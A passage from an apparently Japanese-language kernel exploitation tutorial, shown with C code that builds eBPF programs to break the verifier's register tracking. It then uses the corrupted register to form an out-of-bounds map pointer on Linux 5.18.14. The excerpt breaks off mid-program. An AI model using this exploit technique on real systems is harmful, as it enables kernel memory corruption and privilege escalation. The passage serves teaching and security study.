 ```c
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP), // key
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -0x08),
    BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_FP), // value
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG3, -0x10),
    BPF_MOV64_IMM(BPF_REG_ARG4, 0),          // flag
    BPF_EMIT_CALL(BPF_FUNC_map_update_elem), // map_update_elem

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
  };
```
このプログラムを実行した後のマップ（R1の実際の値）を確認してみると、1になっていることが分かります。一方、22番目の命令終了時点で検証器はR1に0が入っていると推測しています。

<center>
  <img src="img/broken_tracking.png" alt="追跡が壊れた定数の作成" style="width:640px;">
</center>

### 範囲外参照の確認
先ほどのコードで、追跡結果が定数0になるにも関わらず、実際には1を持つようなレジスタが作れました。このレジスタに適当な数を掛けて、マップのポインタに足すと、結果として範囲外を指す有効なポインタが作れます。

実際に試してみましょう。
次のBPFプログラムは、壊れたレジスタに0x100を掛けることで、「推測値=0 / 実際値=0x100」の状況を作り、それを使ってマップの範囲外を`BPF_LDX_MEM`で読んでいます。
```c
int main() {
  char verifier_log[0x10000];
  unsigned long val;

  // BPFマップを作成
  int mapfd = map_create(8, 1);

  unsigned long addr_map = leak_map_address(mapfd);
  printf("[+] addr_map = 0x%016lx\n", addr_map);

  val = 1;
  map_update(mapfd, 0, &val);
  /* BPFプログラム */
  struct bpf_insn insns[] = {
    // R0 --> &map[0]
    BPF_ST_MEM(BPF_DW, BPF_REG_FP, -0x08, 0), // key=0
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -8),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem), // map_lookup_elem(mapfd, &k)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
```

[^1]: Linuxカーネルのバージョンは5.18.14です。
[^2]: スタックの範囲内だが、値の範囲外